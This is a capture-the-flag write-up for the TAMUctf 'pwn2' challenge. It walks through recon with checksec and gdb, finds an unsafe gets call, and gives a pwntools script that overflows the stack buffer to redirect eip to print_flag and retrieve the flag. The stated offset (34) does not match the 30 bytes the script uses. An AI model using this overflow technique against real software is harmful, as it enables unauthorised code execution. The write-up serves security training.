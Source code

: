 ## pwn2
#### Standard for all pwn challenges - we start a simple reconnaisance by using checksec
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### We get the same properties such as the previous pwn challenge. Starting the binary, we get a prompt which asks us which function to call:
```
$ ./pwn2
    Which function would you like to call?
```
#### It waits for user input, and if the user enters a valid function name, it executes that function, else it exits. But we don't really know which functions to call, so we fire up gdb and look at the disassembly of the binary.
```
$ gdb ./pwn2
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x0000080d <+49>:	add    esp,0x10
       0x00000810 <+52>:	sub    esp,0xc
       0x00000813 <+55>:	lea    eax,[ebx-0x1670]
       0x00000819 <+61>:	push   eax
       0x0000081a <+62>:	call   0x500 <puts@plt>
       0x0000081f <+67>:	add    esp,0x10
       0x00000822 <+70>:	sub    esp,0xc
       0x00000825 <+73>:	lea    eax,[ebp-0x27]
       0x00000828 <+76>:	push   eax
       0x00000829 <+77>:	call   0x4e0 <gets@plt>
       0x0000082e <+82>:	add    esp,0x10
       0x00000831 <+85>:	sub    esp,0xc
       0x00000834 <+88>:	lea    eax,[ebp-0x27]
       0x00000837 <+91>:	push   eax
       0x00000838 <+92>:	call   0x77f <select_func>
       [...]
```
#### Interestingly enough, a ```gets``` call is executed to ask for the user input, which can be the entry point for our exploit. But another function to take note of is ```select_func``` which uses the buffer at ```[ebp-0x27]``` as the argument. Let's have a look at all the functions in the binary so we know what options are available for us to choose from:
```
gdb-peda$ info functions
    [...]
    0x000006ad  two
    0x000006d8  print_flag
    0x00000754  one
    0x0000077f  select_func
    0x000007dc  main
    [...]
```
#### We see the functions main and select func, which we already know by disassembling the main function of the binary. And we see the interesting functions, one, two, and print_flag: if we try to input these options in the prompt, maybe it'll give us the flag of the challenge.
```
$ ./pwn2
Which function would you like to call?
one
This is function one!

$ ./pwn2
two

$ ./pwn2
print_flag
```
#### Sadly, we get nothing out of it. We do want to be able to execute the print_flag function tho, as we know it prints the flag for us. Remember that the input uses ```gets``` to get user input? We can utilize that vulnerability to perform a buffer overflow into overwriting the ```eip``` register to point to the address of the ```print_flag``` function. Before we do that, we need to know the address of the function. We can do that using *objdump*:
```
$ objdump -M intel -d pwn2 | grep print_flag
    000006d8 <print_flag>:
        [...]
```
#### We take a note that ```print_flag```'s address is at ```0x000006d8```. Next thing we need to know is the exact size of the buffer to trigger the segmentation fault. Though the buffer is stored at address ```[ebp-0x27]``` which has a size of 39, the exact offset to overflow the buffer and overwrite the eip register is at offset 34. We can now create a short exploit script and send the result to the server to get the flag.
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4322
conn = remote(HOST, PORT)

#: Exploit code
offset = 'A' * 30
eip = p32(0x000006d8)
exploit = offset + eip

#: Send data
print(conn.recvline())
conn.sendline(exploit)
print(conn.recvline())
print(conn.recvline())
```
### And the script returns us the flag!
```
$ python exploit.py

    Which function would you like to call?

    This function is still under development.

    gigem{4ll_17_74k35_15_0n3}
```
